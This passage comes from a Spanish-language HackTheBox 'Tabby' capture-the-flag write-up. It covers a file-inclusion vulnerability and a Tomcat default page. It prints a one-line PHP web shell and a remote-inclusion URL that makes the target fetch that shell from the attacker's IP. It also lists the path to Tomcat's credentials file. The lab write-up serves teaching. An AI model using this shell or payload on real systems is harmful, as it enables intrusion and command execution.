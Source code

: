 Perfecto, tenemos **Local** (vemos un usuario **ash**), probemos **Remote**. Primero creemos un archivo que nos permita ejecutar comandos en el sistema por medio de un argumento.

```bash
─╼ $ cat shxcx.php

<?php shell_exec($_GET['xmd']); ?>
```

Ahora montamos un servidor web rápidamente con python: `$ python3 -m http.server` y desde la URL le indicamos:

```html
http://megahosting.htb/news.php?file=http://10.10.15.86:8000/shxcx.php?xmd=pwd
```

Pero no obtenemos respuesta, por lo tanto nos quedaremos con el *Local File Inclusion*.

...

Podemos revisar procesos en el directorio `/proc/...` pero no tenemos nada relevante.

#### Puerto 8080

(Esta imagen se me olvido tomarla, buscando en otros writeups [la encontre perfecta acá :)](http://www.whatinfotech.com/hackthebox-tabby-writeup/))

![pagetomcat](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/pagetomcat.png)

Nos topamos con la página por default de **tomcat**, veamos que nos cuenta... Varias cosas interesantes:

| Descripción      | Ruta          |
| ---------------- |:------------- |
| Rules            | /usr/share/doc/tomcat9-common/RUNNING.txt.gz |
| CATALINA_HOME    | /usr/share/tomcat9                           |
| CATALINA_BASE    | /var/lib/tomcat9                             |
| Local filesystem | /var/lib/tomcat9/webapps/ROOT/index.html     |
| Users            | /etc/tomcat9/tomcat-users.xml                |
